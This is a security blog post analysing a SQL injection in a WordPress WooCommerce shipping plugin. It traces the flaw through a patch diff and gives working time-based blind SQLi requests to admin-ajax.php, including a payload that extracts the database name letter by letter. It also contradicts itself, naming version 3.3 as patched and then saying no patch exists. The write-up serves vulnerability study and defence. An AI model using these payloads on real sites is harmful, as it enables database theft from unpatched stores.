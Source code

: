 ```yaml
---
title: CVE-2025-48118 Analysis & POC
description: Security Vulnerability in WordPress Woocommerce Partial Shipment Plugin.
date: 2025-09-29 19:54:00 +0700
categories: [CVE Analyst]
tags: [analyst, plugin, sqli]
weight: 1
images: []
featuredImage: "app.png"

lightgallery: true

toc:
auto: false
---
```


---

The vulnerability occurs in the **Woocommerce Partial Shipment** plugin for WordPress prior to version **3.3**.  
It allows attackers to directly interact with the database, potentially leading to data theft and other attacks.

- **CVE ID**: [CVE-2025-48118](https://www.cve.org/CVERecord?id=CVE-2025-48118)  
- **Product**: [WordPress Woocommerce Partial Shipment Plugin](https://wordpress.org/plugins/wc-partial-shipment/advanced/)  
- **Vulnerability Type**: SQL Injection  
- **Affected Versions**: <= 3.2  
- **CVSS Severity**: High (8.5)  
- **Required Privilege**: Subscriber  

---

## Requirements
- [**Local WordPress and Debugging**](https://w41bu1.github.io/posts/wordpress-local-and-debugging/)
- **Woocommerce Partial Shipment**: v3.2 (vulnerable) and v3.3 (patched)
- **Diff Tool**: **meld** or any comparison tool to view differences between versions
- **Activated WooCommerce Plugin**: must be **activated** before installing **Woocommerce Partial Shipment Plugin**, since several WooCommerce functions are used.

---

## Analysis
The root cause lies in directly injecting **POST** request data into an SQL query without proper sanitization or validation.

### Patch Diff
Use any diff tool to compare the vulnerable and patched versions.  
A significant difference appears in **wc-partial-shipment/woocommerce-partial-shipment.php**.

However, since the developer made many changes, locating the vulnerable line can be difficult.

> In WordPress, for SQLi to occur, the application must interact with the database using the global variable `$wpdb`.  
> Searching for this keyword inside **wc-partial-shipment/woocommerce-partial-shipment.php** helps identify possible sinks.

![search sink](search_sink.png "Sink location found in source code")

`get_shipment_id` and `get_wxp_shipment_data` are two functions in the **WXP_Partial_Shipment** class that directly insert user input into SQL queries without validation, making them vulnerable to SQL Injection.

![Patch](patch.png "Comparison between vulnerable and patched version")

The patch uses `$wpdb->prepare()` to safely construct SQL queries instead of **direct string concatenation** with user input.  
This ensures all values are **properly escaped** before being inserted into the SQL query, effectively mitigating SQL Injection risks.

### How it works
Both `get_shipment_id` and `get_wxp_shipment_data` are called by the function `wxp_order_set_shipped` within the same class.

```php
function wxp_order_set_shipped(){
    $order_id = isset($_POST['order_id']) ? $_POST['order_id'] : 0;
    // other logic

    $wxp_shipment = $this->get_wxp_shipment_data($order_id);
    if(isset($_POST['order_id']) && $_POST['order_id']){
        global $wpdb;
        $shipment_id = $this->get_shipment_id($_POST['order_id']);
        if(!$shipment_id){
            $data = array(
                'order_id' =>$order_id,
                'shipment_id' =>1,
                'shipment_url'=>'',
                'shipment_num'=>'',
                'shipment_date'=>current_time('timestamp',0),
            );
            $wpdb->insert($wpdb->prefix."partial_shipment",$data,array('%d','%d','%s','%s','%s'));
            $shipment_id = $wpdb->insert_id;
        }
    // other logic     
    }

    echo json_encode(array('order_id'=>$order_id,'status'=>$status_key));
    exit();
}
````

👉 The `order_id` parameter is taken directly from the **POST request**, making it user-controlled and allowing it to be passed into vulnerable SQL queries within `get_shipment_id` and `get_wxp_shipment_data`.

To find where `wxp_order_set_shipped` is called, search for the keyword `wxp_order_set_shipped` inside the plugin directory.

![Search 1](search_1.png "Location of wxp_order_set_shipped function call")

`wxp_order_set_shipped` is registered in the class constructor as a callback for the `wp_ajax_wxp_order_set_shipped` hook, meaning it can be triggered by authenticated users.

👉 Accessing `/wp-admin/admin-ajax.php` with the parameters:

```http
action=wxp_order_set_shipped&order_id=payload_here
```

will trigger the following:

* The callback `wxp_order_set_shipped` executes.
* `order_id` is taken directly from the request and inserted into SQL queries.
* The query executes twice due to its usage in two separate SQL calls containing the malicious payload.

---

## Exploit

### Detecting SQLi

Send a **POST request** containing an SQLi payload:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
...
Cookie: cookie_here

action=wxp_order_set_shipped&order_id=(SELECT 1 FROM (SELECT SLEEP(5))a)
```

This results in the query:

```sql
SELECT id as ship_id FROM wp_partial_shipment WHERE order_id=(SELECT 1 FROM (SELECT SLEEP(5))a)
```

Because the query executes twice, the response time doubles.

![time response](time_resp.png "Response time after successful exploitation")

A **subquery in the FROM clause** is used because MySQL treats it as a temporary table.
The subquery executes once to create the temporary table, and the main query runs afterward.
This ensures the `SLEEP` function runs only once instead of being multiplied across multiple comparisons.

For example, using the following payload:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
...
Cookie: cookie_here

action=wxp_order_set_shipped&order_id=(SELECT SLEEP(5))
```

The response time increases exponentially.

![search 2](search_2.png "Exponential response time increase")

### Extracting the First Letter of the Database Name

The first step in data extraction is confirming at least one character of the **database name** — once retrieved, the rest can be dumped easily.

Send a request with the following **SQLi payload**:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
...
Cookie: cookie_here

action=wxp_order_set_shipped&order_id=(SELECT 1 FROM (SELECT IF(SUBSTRING(SCHEMA(),1,1)=0x77, SLEEP(5), 1))a)
```

Here, `SUBSTRING()` extracts the first letter of the **database name**, and `IF()` triggers `SLEEP(5)` if it equals `0x77` ('w').

Hex encoding (`0x77`) is used for `'w'` because the `order_id` parameter, being a **POST** value, is escaped by [magic quotes](https://patchstack.com/academy/wordpress/vulnerabilities/sql-injection/#magic-quotes) and `sanitize_text_field` in WordPress.

👉 Based on the delayed response, we confirm that the first character is `'w'`.

---

## Conclusion

The **CVE-2025-48118** vulnerability in the WordPress **Woocommerce Partial Shipment** plugin (versions before 3.3) originates from directly inserting unsanitized user input into SQL queries, resulting in a **SQL Injection** vulnerability.

No official patch has been released at the time of writing.

**Key Takeaways:**

* Always validate and sanitize user input.
* Use `$wpdb->prepare()` for database operations in WordPress to prevent SQL Injection.
* Keep plugins updated and perform regular security audits to avoid being an attack target.

---

## References

[SQL Injection Cheat Sheet - PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)

[WordPress Woocommerce Partial Shipment Plugin <= 3.2 vulnerable to SQL Injection](https://patchstack.com/database/wordpress/plugin/wc-partial-shipment/vulnerability/wordpress-woocommerce-partial-shipment-3-2-sql-injection-vulnerability)

---